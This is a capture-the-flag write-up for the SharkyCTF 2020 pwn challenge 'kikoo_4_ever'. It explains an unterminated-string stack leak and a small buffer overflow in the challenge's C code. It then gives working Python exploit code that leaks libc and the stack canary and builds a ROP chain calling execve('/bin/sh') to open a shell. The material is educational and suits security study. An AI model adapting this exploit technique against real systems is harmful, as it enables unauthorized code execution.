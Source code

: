 
## kikoo_4_ever
### Description

> I have a theory that anyone who spends most of their time on the internet, and has virtual friends, or not, knows at least one kikoo in their entourage. "Kikoo: A young teenager or child who uses text messaging, making numerous spelling mistakes, sometimes behaving immaturely, aggressively, vulgarly, rude, even violent, especially on the internet." - wiktionary.org That's the definition I found on wiktionary.org, but I think being a kikoo is not that pejorative, I also think you can be a kikoo no matter how old you are. Being a kikoo is having a different mentality, it's having a different humor, it's having different hobbies, being a kikoo is mostly an internet lover.
>
> After reading these few lines, and that no one has come to mind, it's that there must be a problem, if there is, we'll fix it immediately. Don't worry, I'm going to teach you how to identify a kikoo, they have very characteristic behaviours, and that's what we're going to see in a moment. Start by running the program, then listen to my instructions...
>
> Creator: Hackhim


### Attachment

[kikoo_4_ever](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/SharkyCTF-2020/pwn/kikoo_4_ever/kikoo_4_ever), [kikoo_4_ever.c](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/SharkyCTF-2020/pwn/kikoo_4_ever/kikoo_4_ever.c) and [libc](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/SharkyCTF-2020/pwn/kikoo_4_ever/libc.so.6)

### Analysis

There are toooo many French words in this chall, google translation help me a lot, here are some keywords:

| French          | Meaning        |
| --------------- | -------------- |
| ecrire regle    | write rules    |
| choisir lieux   | choose a place |
| lire les regles | show rules     |

#### read_user_str

This is a read function, reading string up to max `size` , and `\n` will be replaced with `\0`. 

```c
void read_user_str(char* s, int size){
	char *ptr = NULL;
	read(0, s, size);
	ptr = strchr(s, '\n');
	if(ptr != NULL)
		*ptr = 0;
  //Si il y a pas de \n c'est qu'il a rempli le buffer au max du max, enfin j'crois
    else
      s[size] = 0;
}
```

> And if there is no `\n`, the last byte of buffer will be forced fill with `\0` whatever how long the string we have input.

It means that if there are neither `\n` or `\0` in our input string, our input string will not terminal with `\0`, so that we can leak info from stack if there is a print function after reading.

#### ecrire_regle

In this function, we can write rules. After `read_user_str` called, what we inputed will be printed and if there is no `\n` in our input, the `printf("%s")` would leak info in stack. 

```c
void ecrire_regle(){              // write rules
  // ... 
  puts("\nMake me dream, what's that rule?");
  do{
    printf("Rule n°%d: ", (i+1));
    read_user_str(buf, REGLE_BUF_SIZE_512+0x10);          // bof
    printf("Read back what you just wrote:\n%s\n", buf);  // leak
    printf("Is it ok? Shall we move on? (y/n)");          // confirm
    read_user_str(go_on, 4);
  }while(go_on[0] != 'y');
  // ...
}
```

And there is a bof: `read_user_str(buf, REGLE_BUF_SIZE_512+0x10);` that let us overwrite up to `0x10` bytes of data to the behind of `buf`.

### Solution

#### leak libc & canary

We can leak both `libc` and `canary` via `read_user_str` and `printf("%s",buf)` in `ecrire_regle`:

```python
sla('> ','J') # add observations
sla('> ','2') # write rules

# leak libc_start_main_ret
sea('Rule n°6: ',cyclic(7*8))
ru(cyclic(7*8)) 
leak = uu64(rc(6))
sla('Is it ok? Shall we move on? (y/n)','n')
libcbase = leak-0x94038
info_addr('libcbase',libcbase)

# gadget
prdi = 0x000000000002155f + libcbase # pop rdi ; ret
prsi = 0x0000000000023e6a + libcbase # pop rsi ; ret
prdx = 0x0000000000001b96 + libcbase # pop rdx ; ret
ret  = 0x00000000000008aa + libcbase # ret
execve = libc.sym['execve'] + libcbase
binsh = libc.search('/bin/sh').next() + libcbase

# leak canary
sea('Rule n°6: ',cyclic(521))
ru(cyclic(521))
canary = uu64(rc(7))<<8
info_addr('canary',canary)
sla('Is it ok? Shall we move on? (y/n)','n')
```

#### ret to ropchain

Because `read_user_str` will fill the last byte of `rbp` to `0x0`, so that the layout of stack will change.

and after `ecrire_regle` returned to `main`, if `go_on` (variable that control the loop,`rbp-0x58`) is `0`, `leave; ret` (the instruction at end of `main` ) would be executed and `rsp` would be replaced with `rbp` (`rbp` is pointer to our ropchain).

![](http://image.taqini.space/img/20200511042157.png)

> the value of `rbp` changes every time due to the opening of ASLR

```python
payload = p64(0xdeadbeef)*39  # padding
payload+= p64(0)              # 312 - 0
payload+= p64(0xdeadbeef)*9   # padding
payload+= p64(canary)         # 392 - canary 49
payload+= p64(ret)*8          # ret to rop
payload+= p64(prdi) + p64(binsh) # 58
payload+= p64(prsi) + p64(0)  # 61
payload+= p64(prdx) + p64(0)  # 63
payload+= p64(execve)         # 65
payload+= p64(canary)         # 66
sea('Rule n°6: ',payload)
# debug('b *$rebase(0x1dab)\nc\nx/20xg $rbp-0x58\n')
sla('Is it ok? Shall we move on? (y/n)','y')

# exit if failed
sl('9')
p.interactive()
```

record one case of stack layout and then brute force 

> success after a few times of trying

![](http://image.taqini.space/img/20200511043913.png)

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/SharkyCTF-2020/pwn/kikoo_4_ever) 


